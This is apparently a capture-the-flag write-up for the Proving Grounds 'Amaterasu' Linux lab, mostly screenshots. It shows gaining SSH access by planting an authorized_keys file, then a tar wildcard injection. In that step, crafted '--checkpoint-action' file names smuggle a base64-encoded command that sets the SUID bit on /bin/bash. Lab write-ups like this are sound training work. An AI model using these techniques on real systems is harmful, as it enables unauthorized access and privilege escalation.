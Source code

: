 ```yaml
---
title: Amaterasu
date: 2025-03-02
categories:
- Proving Grounds
- Linux
tags:
- Proving Grounds
- Linux
---
```


# Amaterasu 🔹
<!-- more -->

## Enumeration

![](../assets/Pasted%20image%2020250302170008.png)

Using `feroxbuster` on port `33414`, we find `/info` and `/help`:

![](../assets/Pasted%20image%2020250302170533.png)

![](../assets/Pasted%20image%2020250302170547.png)

![](../assets/Pasted%20image%2020250302170629.png)

## Initial Access

The user `alfredo` has a `.ssh` folder and there is an SSH port open, so we can try to upload an `authorized_keys` file with a public key inside.

![](../assets/Pasted%20image%2020250302190626.png)

```shell
cat id_rsa.pub > authorized_keys.txt
```

![](../assets/Pasted%20image%2020250302190722.png)

![](../assets/Pasted%20image%2020250302190748.png)

Get the flag:

![](../assets/Pasted%20image%2020250302190820.png)

## Privilege Escalation

Transfer `pspy` to the machine and we see a task executing.

![](../assets/Pasted%20image%2020250302194944.png)

![](../assets/Pasted%20image%2020250302194957.png)

We don't have permission to edit the script, but we see that `tar` is using a wildcard, so we can exploit that.

```shell
echo -n 'chmod +s /bin/bash' | base64
> Y2htb2QgK3MgL2Jpbi9iYXNo
touch -- "--checkpoint=1"
touch -- '--checkpoint-action=exec="echo Y2htb2QgK3MgL2Jpbi9iYXNo | base64 -d | bash"'
```

![](../assets/Pasted%20image%2020250302202933.png)

## Post Exploitation

![](../assets/Pasted%20image%2020250302203012.png)
